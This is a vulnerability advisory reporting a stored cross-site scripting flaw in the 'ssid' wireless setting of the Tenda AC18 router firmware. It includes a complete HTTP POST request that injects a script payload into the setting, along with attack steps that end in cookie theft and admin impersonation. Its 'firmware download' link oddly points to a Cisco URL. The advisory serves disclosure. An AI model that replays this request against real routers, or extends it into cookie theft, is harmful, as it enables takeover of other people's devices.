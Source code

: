 # Information

**Vendor of the products:**    Tenda

**Vendor's website:**    https://www.tenda.com.cn/material/show/2610

**Reported by:**    YanKang、ChenZhijin、WeiKanghong

**Affected products:**	Tenda AC18 router

**Affected firmware version:**	V15.03.05.05_multi

**Firmware download address:** 	[https://www.tenda.com.cn/material/show/2610](https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.29 "https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.29")

# Overview

A stored cross-site scripting (XSS) vulnerability was discovered in `Tenda AC18 routers（V15.03.05.05_multi）`. The vulnerability exists in the `ssid` parameter of the `wireless settings`. Remote attackers can inject malicious payloads that execute when any user visits the router's homepage, leading to session hijacking and potential complete compromise of the router.

# Exp

The exploitation process begins when an attacker, after obtaining valid credentials and authenticating via `/login.html`, submits a crafted POST request to the `/goform/WifiBasicSet` endpoint to inject a malicious JavaScript payload into the `ssid` parameter. This payload is then permanently stored in the router's  configuration without proper sanitization and persists across reboots.  Subsequently, when any authenticated user, including administrators,  visits the main dashboard at `/main.html`, the  stored script automatically executes within their browser session,  enabling session hijacking, authentication token theft, and potential  full administrative control of the router.

```
POST /goform/WifiBasicSet HTTP/1.1
Host: 192.168.2.1
Content-Length: 207
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Origin: http://192.168.2.1
Referer: http://192.168.2.1/wireless_ssid.html
Accept-Encoding: gzip, deflate, br
Cookie: password=25d55ad283aa400af464c76d713c07adrmn1qw; bLanguage=cn
Connection: keep-alive

wrlEn=1&wrlEn_5g=1&security=wpawpa2psk&security_5g=wpawpa2psk&ssid=Tenda_FD3AA0<script>alert('XSS_Test')</script>&ssid_5g=Tenda_FD3AA0_5G&hideSsid=0&hideSsid_5g=0&wrlPwd=12345678&wrlPwd_5g=12345678
```

# Attack Demo

The complete attack flow involves the following steps:

1.**Initial Access:** An attacker first obtains valid credentials and authenticates to the router's web interface via the `/login.html` page.

![image-20251015205257561](images/image-20251015205257561.png)

2.**Payload Injection:** The attacker submits a specially crafted POST request to the `/goform/WifiBasicSet` endpoint, injecting a malicious JavaScript payload into the `ssid` parameter.

![image-20251015205422198](images/image-20251015205422198.png)

3.**Trigger Condition:** The vulnerability is triggered when any authenticated user (including administrators) simply visits the main dashboard page at `/main.html`.

![image-20251015205218013](images/image-20251015205218013.png)



# Supplement

The attacker can use the `storage type XSS attack` to obtain the `cookie` of the user who just logged in through `/login.html`. Then, he can forge cookies to perform operations that can only be performed by administrators, causing serious consequences.